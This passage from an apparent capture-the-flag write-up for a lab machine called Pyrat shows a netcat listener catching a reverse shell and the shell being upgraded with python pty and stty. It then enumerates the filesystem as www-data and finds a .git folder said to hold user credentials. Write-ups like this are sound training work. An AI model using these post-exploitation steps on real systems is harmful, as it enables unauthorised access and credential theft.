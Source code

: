 When we go back to our listener, we will notice a reverse connection from the target. We can upgrade this shell to a fully interactive shell using the commands below.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Misc Files]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.153.86] 60072
bash: cannot set terminal process group (583): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
www-data@Pyrat:~$ python3 -c 'import pty;pty.spawn("/bin/bash")' 
python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
www-data@Pyrat:~$ ^Z
zsh: suspended  nc -lvnp 1234
    
┌──(pentester㉿kali)-[~/…/Challenge/Pyrat/Scans/Service]
└─$ stty raw -echo;fg                       
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@Pyrat:~$
```

We have obtained a foothold as the www-data user. A quick enumeration of the file system will reveal a .git folder. This contains a pair of credentials for the Think local user.
```bash
www-data@Pyrat:/$ ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Jun  2  2023 .
drwxr-xr-x 18 root  root  4096 Dec 22  2023 ..
drwxr-x---  5 think think 4096 Jun 21  2023 think
www-data@Pyrat:/$ ls -la /opt
total 12
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Dec 22  2023 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
www-data@Pyrat:/$ ls -la /opt/dev
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
www-data@Pyrat:/$ ls -la /opt/dev/.git/
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
www-data@Pyrat:/$ cat  /opt/dev/.git/config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com
```
